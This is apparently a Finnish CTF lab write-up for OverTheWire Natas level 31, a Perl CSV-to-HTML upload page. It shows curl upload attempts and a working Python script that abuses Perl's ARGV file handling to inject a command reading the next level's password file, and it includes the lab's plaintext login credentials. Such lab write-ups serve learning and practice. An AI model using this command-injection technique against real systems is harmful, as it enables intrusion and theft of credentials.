 ```
<div id="content">

<form action="index.pl" method="post" enctype="multipart/form-data">
    <h2> CSV2HTML</h2>
    <br>
    We all like .csv files.<br>
    But isn't a nicely rendered and sortable table much cooler?<br>
    <br>
    Select file to upload:
    <span class="btn btn-default btn-file">
        Browse <input type="file" name="file">
    </span>    
    <input type="submit" value="Upload" name="submit" class="btn">
</form> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

Lisää curl komentojen testausta ja tarkistusta, sekä tässä vähittelen tulee kun yritettään upottaa tiedostoa sinne nettisivuston polkuun ja käyttäen tätä olemassa olevaa excel taulukon rakennetta eli yritettään saada pelittää.

```
┌──(kali㉿kali)-[~]
└─$ curl -u natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y "http://natas31.natas.labs.overthewire.org/index.pl" -F "submit=Upload" -F "file=Downloads/Book1.csv;type=text/csv" 
```

Toinen testi:
```
$curl -u natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y \
  -F "submit=Upload" \
  -F "file=@Book1.csv;type=text/csv" \
  http://natas31.natas.labs.overthewire.org/index.pl
  ```


**METHOD 1 (Python skripti):**
Tää on se toimiva Python skripti osuus, eli alemmaksi menee niin se toimii, tässä kali linux ohjelman alle laitoin "Book1.csv" excel taulukon normi copy-paste.

```
┌──(kali㉿kali)-[~/Desktop/Python koodit]
└─$ cat pythonkoodi31.py
#!/usr/bin/env python3
import requests

auth = ('natas31', 'm7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y')
base_url = 'http://natas31.natas.labs.overthewire.org/index.pl'

# Komentoinjektio URL:iin
url = base_url + '?cat+/etc/natas_webpass/natas32+|'

# Lähetetään parametri file=ARGV (triggeröi komentoinjektion Perlin <ARGV>-käsittelyyn)
data = {'file': 'ARGV'}

# Tiedosto joka lähetetään (sisällöllä ei ole väliä, mutta sen on oltava olemassa!)
files = {'file': open('/home/kali/Downloads/Book1.csv', 'r')}  # <- muokkaa polku tarpeen mukaan

# POST-pyyntö CGI:lle
resp = requests.post(url, auth=auth, data=data, files=files)

# Tulostetaan palvelimen vastaus
print(resp.text)
```